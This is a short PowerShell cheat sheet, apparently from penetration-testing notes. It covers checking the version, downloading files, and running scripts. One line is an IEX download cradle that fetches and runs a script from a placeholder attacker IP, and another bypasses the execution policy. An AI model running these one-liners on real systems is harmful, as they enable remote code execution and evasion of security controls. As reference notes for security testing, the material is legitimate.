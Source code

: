 ##########
PowerShell
##########

Check Version
=============

If the following command doesn't work, assume it's powershell 1.0.

.. code-block:: none

    powershell -Command "$PSVersionTable.PSVersion"

Downloading Files
=================

In PowerShell 2.x:

.. code-block:: none

    powershell -Command '$WebClient = New-Object System.Net.WebClient;$WebClient.DownloadFile("http://10.0.0.1/path/to/file","C:\path\to\file")'

In PowerShell 3 and above:

.. code-block:: none

    powershell -Command 'Invoke-WebRequest -Uri "http://10.0.0.1/path/to/file" -OutFile "C:\path\to\file"'

Running a Powershell Script From Command Line
=============================================

.. code-block:: none

    powershell IEX(New-Object Net.Webclient).downloadstring('http://<attacker-ip>:<attacker-port>/script.ps1')

.. code-block:: none

    powershell -noexit -file "C:\path\to\script.ps1"

To bypass execution policy:

.. code-block:: none

    powershell -executionPolicy bypass -noexit -file "C:\path\to\script.ps1"
